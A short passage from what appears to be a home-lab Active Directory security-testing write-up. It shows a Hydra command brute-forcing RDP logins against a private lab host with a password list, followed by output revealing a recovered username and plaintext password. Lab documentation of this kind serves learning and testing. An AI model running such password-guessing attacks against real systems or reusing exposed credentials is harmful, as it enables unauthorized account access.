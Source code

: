    Optional:
   ```bash
   hydra -l mthompson -P ~/Documents/Projects/ad-project-01/passwords.txt rdp://192.168.0.150
   ```

![hydra-bruteforce-output](../assets/security_testing/hydra-bruteforce-output.png)


2. **Successful Login Output**

   ```
   [RDP] host: 192.168.0.150   login: MThompson   password: Passw0rd#0098
   ```

![hydra-bruteforce-output-successful](../assets/security_testing/hydra-bruteforce-output-successful.png)
---
